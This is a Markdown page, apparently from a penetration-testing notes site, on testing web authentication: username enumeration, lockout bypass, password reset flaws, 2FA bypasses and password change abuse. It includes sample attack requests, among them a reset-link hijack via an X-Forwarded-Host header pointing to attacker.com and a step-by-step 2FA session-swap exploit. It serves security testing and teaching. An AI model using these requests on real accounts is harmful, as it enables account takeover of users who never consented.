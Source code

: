 ```yaml
---
title: "Authentication"
weight: 2
description: "Explore key authentication testing techniques like username enumeration, password reset flaws, 2FA bypasses, and account lockout analysis."
---
```


# Authentication

## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

{{< details summary="Common Default Usernames" >}}
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
{{< /details >}}

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

{{< hint style=tips >}}
**Tip**: Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.
{{< /hint >}}

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

## Password Attacks

[Cracking passwords]({{< ref "misc/password-cracking" >}}) is a key part of authentication testing.


## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
Try bypassing with an `X-Forwarded-For` header.


## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Analyze Randomness

Use **Burp Sequencer** to analyze the quality of randomness of the token.

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

## Password change

See if you can change the password of an arbitrary user. 
- Look for a hidden username parameter that you can control.
- Brute-force password when you enter your current password.
- Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```